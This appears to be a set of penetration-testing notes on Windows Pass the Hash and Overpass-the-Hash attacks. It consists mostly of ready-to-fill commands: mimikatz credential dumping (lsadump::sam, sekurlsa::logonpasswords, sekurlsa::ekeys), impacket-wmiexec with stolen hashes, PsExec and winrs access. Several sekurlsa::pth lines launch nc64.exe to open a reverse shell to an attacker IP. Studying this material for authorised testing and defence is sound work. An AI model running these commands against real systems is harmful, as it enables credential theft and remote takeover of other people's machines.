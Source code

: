 
### Pass the Hash
```PowerShell
/usr/bin/impacket-wmiexec -hashes :<hash> <username>@<IP>
```

1. Extract hashes
   ```PowerShell
   lsadump::sam
   sekurlsa::msv
   ```
3. Perform the PtH
   ```PowerShell
   token::revert
   sekurlsa::pth /user:<username> /domain:<domain_name> /ntlm:<ntlm_hash> /run:"c:\tools\nc64.exe -e cmd.exe <attacker_ip> 5555"
   ```
4. On the reverse shell
   ```PowerShell
   winrs.exe -r:<target_host> cmd
   ```

Requirements
- An SMB connection through the firewall
- The `ADMIN$` share must be available
- The attacker must present valid credentials with local administrative permission

### Pass the Key / Overpass-the-Hash

1. Run the Notepad with `Run as different user` to cache the credentials on the machine
2. Run mimikatz. Execute the commands `privilege::debug` and `sekurlsa::logonpasswords` to dump the password hash for the user just used
3. Now, in mimikatz, execute the command `sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:powershell` to run a PowerShell
4. Authenticate to a network share of the target `net use \\<target>`
5. Use `klist` to notice the newly requested Kerberos tickets, including a TGT and a TGS for the Common Internet File System (CIFS)
6. Now you can run `.\PsExec.exe \\<target> cmd`

Process
1. `sekurlsa::ekeys` 
2. RC4 hash
   ```PowerShell
   sekurlsa::pth /user:<username> /domain:<domain> /rc4:<rc4_hash> /run:"c:\tools\nc64.exe -e cmd.exe <attacker_ip> 5556"
   AES128 hash
   sekurlsa::pth /user:<username> /domain:<domain> /aes128:<aes128_hash> /run:"c:\tools\nc64.exe -e cmd.exe <attacker_ip> 5556"
   AES256 hash
   sekurlsa::pth /user:<username> /domain:<domain> /aes256:<aes256_hash> /run:"c:\tools\nc64.exe -e cmd.exe <attacker_ip> 5556"
   ```
4. On the reverse shell
   ```PowerShell
   winrs.exe -r:<remote_host> cmd
   ```
